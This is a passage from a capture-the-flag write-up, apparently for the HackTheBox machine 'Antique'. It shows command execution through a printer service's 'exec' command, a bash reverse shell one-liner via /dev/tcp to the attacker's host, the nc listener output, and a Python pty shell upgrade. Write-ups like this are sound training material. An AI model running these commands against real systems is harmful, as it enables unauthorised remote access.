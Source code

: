 

Most of it is about configuring the printer, but the last one, `exec` is
very interesting for my purposes. I'll try running `id`:



    > exec id
    uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)



That's execution!

### Reverse Shell

My go-to reverse shell is bash (see my video on how it works
[here](https://www.youtube.com/watch?v=OjkVep2EIlw)). Given this is a
printer, I'll check if `bash` is on the box, and it is:



    > exec which bash
    /usr/bin/bash



I'll start `nc` listening on my host using `nc -lnvp 443`, and the run
the reverse shell on Antique:



    > exec bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'



It just hangs, but at `nc` there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.107 53188
    bash: cannot set terminal process group (1014): Inappropriate ioctl for device
    bash: no job control in this shell
    lp@antique:~$ id 
    uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)



The `script` shell upgrade trick didn't work for me (just messed up my
terminal), but the Python one worked fine:



    lp@antique:~$ python3 -c 'import pty;pty.spawn("bash")'
    lp@antique:~$ ^Z
    [1]+  Stopped                 nc -lnvp 444
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 444
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    lp@antique:~$ ls
    telnet.py  user.txt
    lp@antique:~$ 
